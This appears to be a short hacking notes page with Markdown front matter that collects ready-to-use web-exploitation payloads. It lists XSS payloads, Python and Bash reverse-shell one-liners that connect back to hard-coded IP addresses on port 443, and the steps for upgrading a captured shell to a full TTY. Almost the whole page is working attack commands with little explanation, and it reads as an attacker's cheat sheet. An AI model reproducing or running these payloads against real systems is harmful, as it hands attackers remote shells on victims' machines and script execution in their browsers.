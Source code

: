 ```yaml
---
title: Payloads and Notes
date: 2023-06-04 00:49:50 -0300
categories: [Hacking, Web Exploitation]
tags: [hacking, payloads, post exploitation]     # TAG names should always be lowercase
---
```


# Payloads and Notes

## Payloads

### XSS
```
<p ondragend=[1].map(prompt) draggable="true">dragMe</p>
<img/src=x onerror=prompt(1)>
<svg onload=alert(1)<
```

### Reverse Shells
```
#Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

#Bash
bash -c '/bin/bash -i >& /dev/tcp/10.9.34.191/443 0>&1'
```

### TTY Treatment
```
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
